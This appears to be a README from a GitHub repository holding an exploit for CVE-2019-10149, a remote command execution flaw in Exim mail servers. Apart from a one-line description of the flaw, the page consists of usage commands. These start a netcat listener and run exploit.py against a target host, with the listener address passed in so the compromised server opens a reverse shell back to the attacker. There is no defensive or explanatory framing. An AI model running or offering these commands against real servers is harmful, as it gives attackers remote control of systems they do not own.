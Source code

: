 # CVE-2019-10149
CVE-2019-10149 : A flaw was found in Exim versions 4.87 to 4.91 (inclusive). Improper validation of recipient address in deliver_message() function in /src/deliver.c may lead to remote command execution.

### Example
```
nc -lvp 9000
python ./CVE-2019-10149/exploit.py --rhost example.com --rport 25 --lhost 10.10.10.100 --lport 9000
```
